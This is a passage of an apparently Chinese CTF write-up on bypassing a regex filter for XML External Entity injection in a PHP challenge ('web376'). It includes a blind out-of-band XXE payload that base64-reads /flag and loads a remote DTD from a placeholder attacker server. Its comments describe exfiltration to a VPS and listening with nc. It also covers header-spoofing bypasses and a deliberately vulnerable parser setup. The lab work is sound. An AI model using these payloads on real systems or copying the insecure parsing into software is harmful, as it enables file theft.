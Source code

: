 继续与上题进行类比，我们可以发现增加的是对xml头的整个语句的正则匹配

这里匹配到的语句是：<?xml version="1.0"

绕过方法一：

直接不写了，传一下看看

```xml
<!-- 要引用（dtd里面），所以要加百分号% -->
<!-- /flag 改成 /etc/passwd 可能会失败，因为内容太多了 -->
<!DOCTYPE hacker[
    <!ENTITY  % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY  % dtds SYSTEM "http://xxx/test/test.dtd">

    %dtds;
]> 
<!-- 不能直接<!ENTITY  % myurl SYSTEM "http://vps-ip:port/%file"> ，因为默认不允许把本地文件发送到远程dtd里面，需要绕一圈，绕过这个限制-->
<!-- %myurl;会读取远程dtd文件，读到了以后，因为远程dtd文件有一个实体的定义（% dtd），那么就会解析这个实体定义。（% dtd）实体的定义内容是另外一个实体定义（&#x25; vps），那就会解析（&#x25; vps），就会执行远程请求，请求地址（http://vps-ip:port/%file），会在我们的vps日志上留下痕迹。
也可以起nc监听端口，能判断是否有向我们的vps发送请求以及请求内容。起nc的话% myurl的值，不要加端口，就vps-ip够了。
总结就是，%myurl 这种引用会自动向地址发送请求。 -->

<root>
1
</root>
```



绕过方法二：添加空格

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- 上面是限制的语句-->
<?xml  version="1.0" encoding="UTF-8"?>
<!-- 我们多添加一个空格就和整个句子不同了-->
```



绕过方法三：引号替换绕过

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- 上面是限制的语句-->
<?xml  version='1.0' encoding="UTF-8"?>
<!-- 我们双引号换成单引号就和整个句子不同了-->
```



### web376

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__); 
```
